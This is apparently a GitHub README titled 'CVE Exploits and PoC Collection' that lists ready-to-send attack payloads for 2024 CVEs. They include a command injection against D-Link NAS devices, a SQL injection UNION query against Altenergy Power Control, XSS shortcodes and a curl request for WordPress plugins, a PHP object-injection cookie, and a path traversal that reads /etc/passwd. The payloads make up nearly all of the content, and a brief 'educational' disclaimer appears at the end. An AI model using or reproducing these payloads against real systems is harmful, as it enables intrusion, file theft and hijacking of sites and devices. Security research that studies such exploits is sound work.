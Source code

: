 
# ⚠️ CVE Exploits and PoC Collection

This repository contains proof-of-concept (PoC) exploits for several WordPress plugins and other servers/websites with known vulnerabilities. These examples are for educational and research purposes only. Use responsibly.

## ⚠️ Vulnerabilities

### ✅ CVE-2024-10914
**A vulnerability was found in D-Link DNS-320, DNS-320LW, DNS-325 and DNS-340L up to 20241028**
```http
GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1
```
### ✅ CVE-2024-11305
**A vulnerability classified as critical was found in Altenergy Power Control Software up to 20241108**
```plaintext
POST /index.php/display/status_zigbee HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close

date=2024-11-06%' UNION ALL SELECT 11,CHAR(113)CHAR(75,101,86,69,115,83,113,89,100,122,121,102,83,83,113,86,84,112,100,103,69,75,80,117,88,109,83,105,89,116,110,120,76,84,73,109,115,100,83,107)CHAR(113,118,98,98,113),11-- wPIB
```
### ✅ CVE-2024-10793  
**WP Security Audit Log Plugin Detection**  
An XSS vulnerability that allows injecting malicious scripts.  
```bash
curl -X POST 'http://example.com/wp-admin/admin-ajax.php' \
     -d 'action=destroy-sessions&user_id=<script>alert("XSS found windz3r0day")</script>'
```
### ✅ CVE-2024-11199  
**Stored Cross-Site Scripting via the plugin's `rescue_progressbar` shortcode**  
```plaintext
[rescue_progressbar visibility='foo" onclick="alert(/XSS/)"']
```

### ✅ CVE-2024-11381  
**Stored Cross-Site Scripting via the plugin's `ch_registro` shortcode**  
```plaintext
[ch_registro note='"onmouseover="alert(/XSS/)"']
```
### ✅ CVE-2024-43919  
**YARPP <= 5.30.10 - Missing Authorization**  
This exploit allows unauthorized access to modify display types.  
```http
GET /wp-content/plugins/yet-another-related-posts-plugin/includes/yarpp_pro_set_display_types.php?ypsdt=false&types[]=post&types[]=page HTTP/1.1
Host: example.com
```
### ✅ CVE-2024-52433  
**My Geo Posts Free <= 1.2 - Unauthenticated PHP Object Injection**  
```http
GET / HTTP/2
Host: wp-dev.ddev.site
Cookie: mgpf_geo_coockie=TzoyMDoiUEhQX09iamVjdF9JbmplY3Rpb24iOjA6e30=
```
### ✅ CVE-2024-9935  
**PDF Generator Addon for Elementor Page Builder <= 1.7.5 - Unauthenticated Arbitrary File Download**  
```http
GET /elementor-84/?rtw_generate_pdf=true&rtw_pdf_file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Priority: u=0, i
```

## ▶▶▶ Disclaimer

This repository is intended for **educational purposes only**. Use of these exploits on systems or websites without explicit permission is illegal and unethical. The creator is not responsible for any misuse of this information.

---

## Support Me  

If you find this work helpful, you can support me:  
- [![Buy Me a Coffee](https://www.buymeacoffee.com/assets/img/custom_images/yellow_img.png)](https://buymeacoffee.com/ghost_sec)  

Thanks for your support! ❤️
